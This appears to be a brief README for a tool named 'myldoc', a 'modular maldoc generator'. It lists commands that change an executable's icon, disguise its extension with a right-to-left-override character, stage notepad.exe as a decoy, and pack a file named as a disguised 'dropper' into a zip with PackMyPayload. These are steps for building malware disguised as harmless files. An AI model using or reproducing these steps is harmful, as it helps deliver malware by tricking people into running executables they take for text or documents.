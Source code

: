 # myldoc
modular maldoc generator with unix philosophy

python .\icon_changer\icon_change.py .\out.exe
python .\extension_changer\rlo.py .\out.exe

cp C:\Windows\system32\notepad.exe .\data\

python .\PackMyPayload.py "..\dropper‮﻿txt.exe" container.zip